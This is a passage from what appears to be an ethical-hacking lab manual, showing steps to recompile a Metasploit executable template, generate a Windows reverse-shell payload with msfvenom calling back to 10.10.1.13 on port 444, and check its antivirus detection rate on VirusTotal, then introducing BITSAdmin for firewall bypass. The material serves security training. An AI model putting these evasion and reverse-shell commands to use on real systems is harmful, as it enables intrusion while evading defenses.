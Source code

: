 ### 


14. Now, type **cd /usr/share/metasploit-framework/data/templates/src/pe/exe/** in the terminal and press **Enter** to navigate to exe
    folder.
15. Type **i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe** and press **Enter** , to recompile the standard template.

### 


16. Type **ls** and press **Enter** to list the contents of the **exe** folder.
17. In a new terminal generate a payload using new template by the following command, **msfvenom -p windows/shell_reverse_tcp**
    **lhost=10.10.1.13 lport=444 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe >**
    **/home/attacker/bypass.exe**

### 


18. Now, switch back to the browser window and in the virustotal page, click on **Upload file** button on the top of the page.
19. In the **File Upload** window, select **bypass.exe** file from **/home/atttacker** location and click **Open**.

### 


20. After selecting the file click on **Confirm upload** button, virustotal will analyze the detection of malicious file.

### 


21. You can observe that now only **48** out of **71** antivirus vendors have detected the malicious file, thus we can evade antivirus detection
    by modifying Metasploit templates.

```
Note: The result might differ when you perform this task.
```
22. Close all open windows.

## Task 4: Bypass Firewall through Windows BITSAdmin

BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems.
BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file
shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.

Here, we will use BITSAdmin to bypass firewall and transfer malicious file into the target machine.
